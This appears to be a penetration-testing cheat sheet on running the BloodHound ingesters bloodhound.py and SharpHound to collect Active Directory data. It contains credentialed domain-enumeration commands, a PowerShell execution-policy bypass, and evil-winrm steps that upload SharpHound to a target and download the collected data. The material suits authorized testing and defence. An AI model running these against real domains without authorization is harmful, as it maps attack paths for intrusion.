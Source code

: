 

## Ingesters

### Use bloodhound.py

Use this ingester to collect all AD data from a domain controller. (we use docker container to make sure that all dependences are installed)

{% code title="Kali python tool" overflow="wrap" %}
```bash
sudo apt install bloodhound.py

bloodhound-python -c all -ns $TARGET_IP -dc $DC_NAME -d $DOMAIN_NAME --zip -u '$USER' -p '$PASS'
```
{% endcode %}

{% code title="With Docker" overflow="wrap" %}
```bash
git clone https://github.com/dirkjanm/BloodHound.py -b bloodhound-ce
# -b: specific the branch

chown kali:kali -R BloodHound.py && cd BloodHound.py
docker build . -t bloodhound-ingester

docker images
docker run -it --rm $IMG_ID sh # maybe: -v $(pwd):/mnt/ sh

# run command into docker envirnment
python3 bloodhound.py -c all -ns $TARGET_IP -dc $DC_NAME -d $DOMAIN_NAME --zip -u '$USER' -p '$PASS'

# to copy output file from kali
docker cp $CONTAINER_ID:/bloodhound-data/$OUTPUT_FILE .
```
{% endcode %}

Now that we have a BloodHound output zip file, upload it to BloodHound Web application hosted on port 8080 of localhost

### Use SharpHound

```bash
git clone https://github.com/BloodHoundAD/BloodHound
cd BloodHound\Collectors
```

```powershell
# import script
powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All # all the data will be stored as a zip file
```

```bash
# use .exe into target machine
upload SharpHound.exe # put file with evil-winrm
.\SharpHound.exe

# download the result from evil-winrm
download 20221217070128_BloodHound.zip
```
